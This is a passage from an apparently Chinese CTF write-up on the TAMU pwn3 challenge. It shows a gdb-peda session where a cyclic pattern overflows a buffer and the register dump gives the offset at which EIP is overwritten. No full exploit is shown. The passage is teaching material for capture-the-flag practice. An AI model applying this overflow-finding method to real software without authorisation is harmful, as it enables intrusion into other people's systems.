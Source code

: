 <img src="/images/posts/TAMU pwn/1519643824249.png" height="300" width="600"> 

然后我们用pwn2的技术（利用eip寄存器）
```
gdb-peda$ pattern create 300 /tmp/pattern_pwn3
Writing pattern of 300 chars to filename "/tmp/pattern_pwn3"
gdb-peda$ r < /tmp/pattern_pwn3
Starting program: /root/Desktop/TAMU_pwn/pwn3 < /tmp/pattern_pwn3
Welcome to the New Echo application 2.0!
Changelog:
- Less deprecated flag printing functions!
- New Random Number Generator!

Your random number 0xbffff19a!
Now what should I echo? AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%

Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]
EAX: 0x12d 
EBX: 0x0 
ECX: 0xfbad0087 
EDX: 0xb7fb1870 --> 0x0 
ESI: 0x1 
EDI: 0xb7fb0000 --> 0x1b2db0 
EBP: 0x41612541 ('A%aA')
ESP: 0xbffff290 ("FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%")
EIP: 0x25413025 ('%0A%')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x25413025
[------------------------------------stack-------------------------------------]
0000| 0xbffff290 ("FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%")
0004| 0xbffff294 ("A%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%")
```
